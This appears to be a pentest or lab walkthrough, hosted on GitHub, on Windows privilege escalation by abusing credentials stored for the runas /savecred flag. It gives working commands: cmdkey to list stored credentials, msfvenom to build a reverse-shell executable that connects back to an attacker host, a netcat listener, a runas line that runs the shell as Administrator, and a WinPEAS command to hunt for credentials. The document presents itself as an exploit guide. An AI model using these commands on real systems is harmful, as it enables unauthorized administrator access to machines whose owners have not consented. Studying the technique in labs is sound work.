 Runas is a Windows command-line tool that allows a user to run specific tools, programs or commands with different permissions than the user’s current logon provides.

If a user’s credentials are cached in the system, the Runas command can be run using the /savecred flag which will automatically authenticate and execute the command as that user.


Identifying Stored Credentials

Cmdkey is a Windows command-line utility that is used to create, list, and delete stored user names and passwords or credentials.

The following command can be used to identify stored credentials:

```
cmdkey /list
```

![Screenshot from 2024-09-30 02-29-29](https://github.com/user-attachments/assets/a0405e65-29ba-4208-832a-b6979ee52133)

**Exploit**

1. A reverse shell should be crafted:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<our ip> LPORT=1234 -f exe > shell.exe
```

2. Transferring the ```shell.exe``` file to the Windows victim machine using the Python web server
3. The next step is to set up a Netcat listener:
```
nc -nlvp 1234
```
 4.The following command can then be used to execute the reverse shell as the Administrator user:
```
runas /savecred /user:msedgewin10\Administrator "C:\Users\lol\shell.exe"
```
The Runas command executed the reverse shell as the administrator user, therefore granting remote SYSTEM level access to the machine.

**Automated scripts such as WinPEAS can also find stored credentials:**
--
```
winpeas.exe quiet cmd windowscreds
```
